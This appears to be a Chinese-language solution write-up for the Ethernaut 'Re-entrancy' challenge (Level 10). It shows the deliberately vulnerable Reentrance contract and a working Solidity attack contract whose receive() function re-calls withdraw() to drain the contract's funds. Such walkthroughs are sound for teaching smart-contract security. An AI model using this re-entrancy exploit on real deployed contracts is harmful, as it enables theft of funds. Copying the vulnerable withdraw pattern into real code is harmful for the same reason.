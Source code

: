 #   Level 10 Re-entrancy
實例地址：`0xdDDad271e43B42bCf2600Da9780457172dE03da0`

##  題目說明
這一關的目標是偷走合約的所有資產。

  可能會有用的資訊

*   沒被信任的(untrusted)合約可以在你意料之外的地方執行程式碼
*   fallback 方法
*   拋出(throw)/恢復(revert) 的通知
*   有的時候攻擊一個合約的最好方式是使用另一個合約
*   查看上方幫助頁面 "Beyond the console" 章節

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

##  POC
該合約漏洞位於 `withdraw(uint256)`， `call` 會等待執行結果，所以我們可以撰寫一個攻擊合約使用 `receive()` 的方式進行重入攻擊，這樣可以在 balances 被扣除前再次調用 `withdraw()`。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Reentrance{
     function withdraw(uint256 _amount) external;
     function donate(address _to) external payable;
}

contract Attack{
    Reentrance public target;

    constructor(address payable _target) payable{
        target = Reentrance(_target);
        target.donate{value:msg.value}(address(this));
    }

    function attack()external payable{
        target.withdraw(0.001 ether);
    }

    receive() external payable{
        target.withdraw(0.001 ether);
    }
}
```